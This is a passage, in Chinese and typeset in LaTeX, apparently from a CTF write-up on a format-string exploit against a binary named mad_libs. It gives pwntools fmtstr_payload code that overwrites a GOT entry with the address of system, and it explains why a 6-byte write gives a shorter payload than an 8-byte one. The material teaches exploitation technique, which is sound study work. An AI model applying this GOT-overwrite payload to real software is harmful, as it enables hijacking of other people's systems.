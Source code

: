 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
⇒ 寫 6 bytes 就等於寫完整的 8 bytes（GOT
那格本來就是對的），而且\textbf{payload 更短}：

實測同一個目標、同一個值，只差在寫 6 或 8 bytes：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{system, got }\OperatorTok{=} \BaseNTok{0x00007f6683058740}\NormalTok{, }\BaseNTok{0x404010}
\NormalTok{fmtstr\_payload(}\DecValTok{8}\NormalTok{, \{got: p64(system)[:}\DecValTok{6}\NormalTok{]\}, write\_size}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{, write\_size\_max}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{,}
\NormalTok{               numbwritten}\OperatorTok{=}\DecValTok{0}\NormalTok{, badbytes}\OperatorTok{=}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)   }\CommentTok{\# → len = 112}
\NormalTok{fmtstr\_payload(}\DecValTok{8}\NormalTok{, \{got: p64(system)     \}, write\_size}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{, write\_size\_max}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{,}
\NormalTok{               numbwritten}\OperatorTok{=}\DecValTok{0}\NormalTok{, badbytes}\OperatorTok{=}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)   }\CommentTok{\# → len = 144（多 2 個 \%hhn + 2 個位址槽）}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  強制每個 byte 一個 \texttt{\%\allowbreak{}hhn} 時，\textbf{6 bytes = 112 bytes、8
  bytes = 144 bytes}（差 32）；
\item
  用預設的
  \texttt{write\_\allowbreak{}size\_\allowbreak{}max=\textquotesingle{}\allowbreak{}long\textquotesingle{}\allowbreak{}}
  時兩者剛好都是 96 bytes（pwntools 會聰明地用一次 \texttt{\%\allowbreak{}15\$\allowbreak{}lln} 把
  8 bytes 一次寫掉）------ 所以「寫 8 個 byte 也能通，只是通常沒必要」。
\end{itemize}

\textbf{實務上大家選 6 bytes 的理由}就是前者：\texttt{mad\_\allowbreak{}libs} 用
\texttt{fgets(buf,\allowbreak{}\ \allowbreak{}255,\allowbreak{}\ \allowbreak{}...)} 收輸入， \textbf{payload
越短越安全}（§3.4 的長度討論、§9 的坑）。少寫 2 個「永遠是 0」的 byte
就少 2 個寫入與 2 個位址槽，能省下約 32 bytes 的空間。
\end{document}

